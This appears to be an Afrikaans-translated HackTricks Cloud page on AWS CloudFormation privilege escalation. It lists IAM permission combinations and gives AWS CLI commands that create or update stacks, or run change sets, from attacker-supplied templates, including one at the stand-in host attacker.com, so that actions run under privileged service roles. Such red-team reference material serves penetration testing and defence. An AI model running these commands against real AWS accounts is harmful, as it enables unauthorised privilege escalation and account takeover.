 # AWS - Cloudformation Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Vir meer inligting oor cloudformation, kyk:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

'n Aanvaller met hierdie toestemmings **kan priviledge verhoog** deur 'n **CloudFormation-stapel** te skep met 'n pasgemaakte sjabloon, gehos op hul bediener, om **aksies uit te voer onder die toestemmings van 'n gespesifiseerde rol:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
In die volgende bladsy het jy 'n **uitbuiting voorbeeld** met die bykomende toestemming **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potensiële Impak:** Privesc na die cloudformation diensrol wat gespesifiseer is.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In hierdie geval kan jy 'n **bestaande cloudformation stapel** misbruik om dit op te dateer en voorregte te verhoog soos in die vorige scenario:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` toestemming kan gebruik word om **jouself `UpdateStack` toestemming** oor 'n stapel te gee en die aanval uit te voer.

**Potensiële Impak:** Privesc na die cloudformation diensrol gespesifiseer.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

As jy hierdie toestemming het maar **geen `iam:PassRole`** nie, kan jy steeds **die stapels** wat gebruik word opdateer en die **IAM Rolle wat hulle reeds aangeheg het** misbruik. Kyk na die vorige afdeling vir 'n eksploit voorbeeld (moet net nie enige rol in die opdatering aandui nie).

Die `cloudformation:SetStackPolicy` toestemming kan gebruik word om **jouself `UpdateStack` toestemming** oor 'n stapel te gee en die aanval uit te voer.

**Potensiële Impak:** Privesc na die cloudformation diensrol wat reeds aangeheg is.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

'n Aanvaller met toestemmings om **'n rol oor te dra en 'n ChangeSet te skep & uit te voer** kan **'n nuwe cloudformation stapel skep/opdateer en die cloudformation diensrolle misbruik** net soos met die CreateStack of UpdateStack.

Die volgende eksploit is 'n **variasie van die**[ **CreateStack een**](./#iam-passrole-cloudformation-createstack) wat die **ChangeSet toestemmings** gebruik om 'n stapel te skep.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` toestemming kan gebruik word om **vir jouself `ChangeSet` toestemmings** oor 'n stap te gee en die aanval uit te voer.

**Potensiële Impak:** Privesc na cloudformation diens rolle.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Dit is soos die vorige metode sonder om **IAM rolle** oor te dra, so jy kan net **alreeds aangehegte eenhede misbruik**, net die parameter aanpas:
```
--change-set-type UPDATE
```
**Potensiële Impak:** Privesc na die cloudformation diensrol wat reeds aangeheg is.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

'n Aanvaller kan hierdie toestemmings misbruik om StackSets te skep/op te dateer om arbitrêre cloudformation rolle te misbruik.

**Potensiële Impak:** Privesc na cloudformation diensrolle.

### `cloudformation:UpdateStackSet`

'n Aanvaller kan hierdie toestemming misbruik sonder die passRole toestemming om StackSets op te dateer om die aangehegte cloudformation rolle te misbruik.

**Potensiële Impak:** Privesc na die aangehegte cloudformation rolle.

## Verwysings

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
